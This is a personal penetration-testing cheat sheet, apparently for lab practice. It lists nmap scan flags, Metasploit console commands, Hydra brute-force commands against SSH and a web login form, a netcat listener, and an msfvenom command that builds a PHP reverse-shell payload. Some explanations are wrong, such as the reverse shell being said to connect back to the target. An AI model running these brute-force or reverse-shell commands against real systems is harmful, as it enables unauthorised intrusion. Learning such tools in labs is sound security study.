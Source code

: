 ```yaml
---
tags:
  - programming/hacking/tools
  - programming/linux
---
```


# Commands

Commands that might be useful and why they might be useful. In general, I like to add `| tee name.log` after the
commands so that I have a record of what was found and don't have to run things multiple times. Assume that is after
every command.


# Nmap
Map out ports. See [NMAP Basic](NMAP%20Basic.md) and [NMAP Advanced](NMAP%20Advanced.md) for more.
```bash
    # vulnerability mapping
    nmap -sV -sC -script vuln blue.nmap XX.XX.XXX.XXX
    
    -h          # help
    -sS         # Secret scan
    -sU         # UDP scan
    -O          # Find operatin system
    -sV         # scan version
    -v          # Verbose
    -vv         # Double verbose
    -oX         # XML output
    -A          # Aggressive scan
    -T5         # Max timeout (insane mode)
    -p XX       # Specify port XX
    -F          # Fast scan (most common only)
    -p-         # Scan all ports
    --script    # Run scripts
    -Pn         # Run without pinging
```

# Metasploit

Start metasploit with `msfconsole`. See [Metasploit](Metasploit.md) for more
 
Console commands: 
```
    db_status       # database status
    help            # help commands
    ?               # help shortcut
    search          # find stuff
    use             # Actually use the module
    info            # Show info about module
    show options    # Shows options for module
    set [A] [B]     # Sets A to B. Use "show options" to see "A" options
    get [A]         # Shows value of "A". "Show options" shows all
    unset [A]       # Sets B to null
    spool           # Save output to file
    save            # Saves settings to file and can open later
```

# Deduplicate values

This is just a matter of sorting, finding unique and saving but can be EXTREMELY useful when trying to bruteforce with a
list that has duplicates.
```bash
sort input_file.txt | uniq > output_file.txt
```

# Using Hydra

See [Hydra](Hydra.md) for more

```bash
# ssh attack
hydra -l molly -P /usr/share/wordlists/rockyou.txt $ipadd -t 4 ssh

# login attack
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.127.253 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect." -V -t 4
```

# Netcat

Use netcat to read from a port when using a reverse shell.

```bash
    nc -lvp 4444
```

# Msfvenom

This creates a reverse shell that goes back to the target machine. Using the command

```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f raw -o payload.php
```
